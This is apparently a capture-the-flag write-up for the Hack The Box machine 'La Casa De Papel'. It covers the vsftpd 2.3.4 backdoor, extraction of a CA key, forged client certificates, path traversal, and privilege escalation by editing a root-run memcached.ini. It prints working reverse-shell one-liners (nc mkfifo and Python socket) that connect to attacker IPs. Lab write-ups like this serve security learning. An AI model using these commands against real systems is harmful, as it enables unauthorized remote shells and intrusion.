 ## La Casa De Papel


A Pretty Fun box with the La Casa De Papel (Money Heist) theme, pretty awesome show on Netflix, make sure to check it out!

So, coming back to the writeup,

As always, we start with a nmap scan of the box. I used the `-sV` to get the services running on the open ports.

```
nmap -sV -v 10.10.10.131                                                                                                                     3259ms  ...

Discovered open port 22/tcp on 10.10.10.131
Discovered open port 443/tcp on 10.10.10.131
Discovered open port 80/tcp on 10.10.10.131
Discovered open port 21/tcp on 10.10.10.131
...
Nmap scan report for lacasadepel.htb (10.10.10.131)
Host is up (0.49s latency).
Not shown: 996 closed ports
PORT    STATE SERVICE  VERSION
21/tcp  open  ftp      vsftpd 2.3.4
22/tcp  open  ssh      OpenSSH 7.9 (protocol 2.0)
80/tcp  open  http     Node.js (Express middleware)
443/tcp open  ssl/http Node.js Express framework
Service Info: OS: Unix
```

So, let's enumerate, the tcp ports on 80 and 443.

`Port 80:`

![Image](1.jpeg)

On scanning the QR Code, I thought maybe, we are supposed to break the Authentication, but that was sadly a rabbit hole. 


`Post 443:`

![Image](2.jpeg)

Interesting, so, I maybe need to generate or find a certificate to enter this. We need more information.

Let's Enumerate the FTP port.

```
ncftp 10.10.10.131                                                                                                                             2.6m  Saturday 27 July 2019 12:33:47 AM IST
NcFTP 3.2.5 (Feb 02, 2011) by Mike Gleason (http://www.NcFTP.com/contact/).
Connecting to 10.10.10.131...                                                                                                                                                                                
(vsFTPd 2.3.4)
Login incorrect.
```

So, that didn't work. On some googl-fu, found out that `vsftpd 2.3.4` has a backdoor!. [CVE-2011-0762](https://www.cvedetails.com/cve/CVE-2011-0762/)

Tried getting a shell with metaspoilt, using the exploit-db code, but that failed. So, thought of doing it manually. Found this amazing [article](https://www.hackingtutorials.org/metasploit-tutorials/exploiting-vsftpd-metasploitable/) which explains the procedure, pretty straight forward. 

![Image](3.png)

On connecting to the telnet backdoor service, we are greeted by a `Psy Shell v0.9.9 (PHP 7.2.10 — cli) by Justin Hileman`

Basically `PsySH can be used as an interactive debugger`. 


```telnet 10.10.10.131 6200                                                                                                                                           Saturday 27 July 2019 12:48:39 AM IST
Trying 10.10.10.131...
Connected to 10.10.10.131.
Escape character is '^]'.
Psy Shell v0.9.9 (PHP 7.2.10 — cli) by Justin Hileman
ls
Variables: $tokyo
help
  help       Show a list of commands. Type `help [foo]` for information about [foo].      Aliases: ?                     
  ls         List local, instance or class variables, methods and constants.              Aliases: list, dir             
  dump       Dump an object or primitive.                                                                                
  doc        Read the documentation for an object, class, constant, method or property.   Aliases: rtfm, man             
  show       Show the code for an object, class, constant, method or property.                                           
  wtf        Show the backtrace of the most recent exception.                             Aliases: last-exception, wtf?  
  whereami   Show where you are in the code.                                                                             
  throw-up   Throw an exception or error out of the Psy Shell.                                                           
  timeit     Profiles with a timer.                                                                                      
  trace      Show the current call stack.                                                                                
  buffer     Show (or clear) the contents of the code input buffer.                       Aliases: buf                   
  clear      Clear the Psy Shell screen.                                                                                 
  edit       Open an external editor. Afterwards, get produced code in input buffer.                                     
  sudo       Evaluate PHP code, bypassing visibility restrictions.                                                       
  history    Show the Psy Shell history.                                                  Aliases: hist                  
  exit       End the current session and return to caller.                                Aliases: quit, q               
show $tokyo
  > 2| class Tokyo {
    3| 	private function sign($caCert,$userCsr) {
    4| 		$caKey = file_get_contents('/home/nairobi/ca.key');
    5| 		$userCert = openssl_csr_sign($userCsr, $caCert, $caKey, 365, ['digest_alg'=>'sha256']);
    6| 		openssl_x509_export($userCert, $userCertOut);
    7| 		return $userCertOut;
    8| 	}
    9| }
```

Since the shell can execute php functions, we can try to get the CA key. 

```
file_get_contents('/home/nairobi/ca.key')
=> """
   -----BEGIN PRIVATE KEY-----\n
   MIIEvgIBADANBgkqhkiG9w0BAQEFAASCBKgwggSkAgEAAoIBAQDPczpU3s4Pmwdb\n
   7MJsi//m8mm5rEkXcDmratVAk2pTWwWxudo/FFsWAC1zyFV4w2KLacIU7w8Yaz0/\n
   2m+jLx7wNH2SwFBjJeo5lnz+ux3HB+NhWC/5rdRsk07h71J3dvwYv7hcjPNKLcRl\n
   ....
   53udBEzjt3WPqYGkkDknVhjD\n
   -----END PRIVATE KEY-----\n
```

Let's copy this to a separate file and remove the `\n` at the line ends. 


We are gonna need this to sign our certificates to get into the "restricted area" on port 443.

Using this [Medium Article](https://medium.com/@sevcsik/authentication-using-https-client-certificates-3c9d270e8326), I created a new certificate for the user `Alice` and tried logging into 443.


And we're in.

![](4.jpeg)

The URL for `SEASON-1` is `https://10.10.10.131/?path=SEASON-1` which makes me think, maybe a LFI?

I try `https://10.10.10.131/?path=../../../`

![](5.jpeg)

And YES! Definitely LFI.

On further enumeration, I find

`https://10.10.10.131/?path=../../../home/berlin/.ssh`, which hosts the keys for a user. But we can only check out the directory listings and not the files. So, I go back to `SEASON-1` and download `01.avi`.

`https://10.10.10.131/file/U0VBU09OLTEvMDEuYXZp`

`U0VBU09OLTEvMDEuYXZp`, seems weird, maybe some encoding or encryption?


`https://10.10.10.131/file/U0VBU09OLTEvMDIuYXZp` for `02.avi`.


Hmm, weird? A lot of characters are common. Maybe Base64?

And yes! `U0VBU09OLTEvMDIuYXZp` decodes to `SEASON-1/02.avi`

We can now download any permitted file, just by encoding the path to Base64.

So, we download the private keys from `.ssh` folder  and `user.txt`

```
cat user.txt                                                                                                                            49.4s  Saturday 27 July 2019 12:51:36 PM IST
************REDACTED************
```

Since the user was `Berlin` I tried ssh-ing using Berlin, but it failed?!

Let's try Dali

Nopes.

The Professor?

And we are in!

```
ssh professor@10.10.10.131 -i id_rsa                                                                                                                Saturday 27 July 2019 12:51:58 PM IST

 _             ____                  ____         ____                  _ 
| |    __ _   / ___|__ _ ___  __ _  |  _ \  ___  |  _ \ __ _ _ __   ___| |
| |   / _` | | |   / _` / __|/ _` | | | | |/ _ \ | |_) / _` | '_ \ / _ \ |
| |__| (_| | | |__| (_| \__ \ (_| | | |_| |  __/ |  __/ (_| | |_) |  __/ |
|_____\__,_|  \____\__,_|___/\__,_| |____/ \___| |_|   \__,_| .__/ \___|_|
                                                            |_|       

lacasadepapel [~]$ whoami
professor
```

So, for initial enum, I ran `LSE.sh`, nothing very interesting. Next I always run `pspy64`, to check out any cron jobs running, or anything that can help.

So, for a couple of times, I saw the code of memcached.ini being run, in pspy. SO decided to write a version of myself and replace the code within. Now, I hit a brake when my reverse shell didn't work. I tried the usual, 

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```
but that didn't work. So after wasting a LOT of time on some other enumeration, I decided to change my reverse shell. I tried a Python Rev Shell, and Booyah!


```
nc -lvp 1234                       12m  Saturday 27 July 2019 05:40:21 PM IST
Listening on [0.0.0.0] (family 0, port 1234)
Connection from lacasadepel.htb 40250 received!
/bin/sh: can't access tty; job control turned off
/ # whoami
root
/ # cat /root/root.txt
********REDACTED********
/ # hostname
lacasadepapel
/ # 

```


Code for `memcached.ini`

```
[program:memcached]
command = sudo python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.15.166",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

```


I loved this box, it's theme, and learnt a lot, especially the certificates part! Thanks for reading this writeup~!